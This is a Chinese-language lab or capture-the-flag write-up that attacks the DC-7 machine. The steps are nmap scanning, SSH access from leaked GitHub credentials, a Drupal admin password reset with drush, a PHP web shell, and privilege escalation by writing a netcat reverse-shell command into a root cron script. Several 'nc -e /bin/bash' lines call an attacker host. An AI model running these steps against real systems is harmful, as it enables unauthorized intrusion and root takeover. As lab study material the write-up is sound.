# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24
nmap -sS 192.168.182.148
```



访问80端口



并且提示我们暴力破解是没有办法成功的

## Github泄露网站数据库配置信息导致泄露SSH

然后看到左下角有一个@DC7USER

谷歌搜索了一下，发现github上有该用户保存的代码,打开config文件看一下



# 提权

登录一下ssh，成功登录



## 提权www-data

然后发现了几封邮件,发现一个backups.sh文件,而且根据实践来看是每15分钟root用户会执行一次



运行一下sh文件发现没啥用,再查看一下内容



如果我们能修改内容,就能以root权限执行命令,但我们没有办法修改内容,查看一下权限



发现www-data对其也有rwx权限

而且关注到这个`drush`命令，是`drupal框架`中用来做一些配置的命令，它可以改变用户名密码，格式如下：

```
drush user-password admin --password="new_pass"
```

进入到/var/www/html目录下，因为网站会有一个admin用户，所以使用drush命令修改admin用户的密码为123456，发现可以修改成功

```
drush user-password admin --password="123456"
```

使用密码成功登录到后台



尝试一句话木马

尝试编辑一下文章



但是并没有安装php环境，去Extends模块安装

```
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```





写下我们的一句话木马



成功用蚁剑连接



发现安装了nc,使用nc反弹shell

```
nc -e /bin/bash 192.168.211.135 333
```

获取交互式shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

## 垂直提权

去修改一下backups.sh文件



```
echo nc -e /bin/bash 192.168.187.130 6666 > backups.sh
```



然后等backups.sh下一次被root用户执行



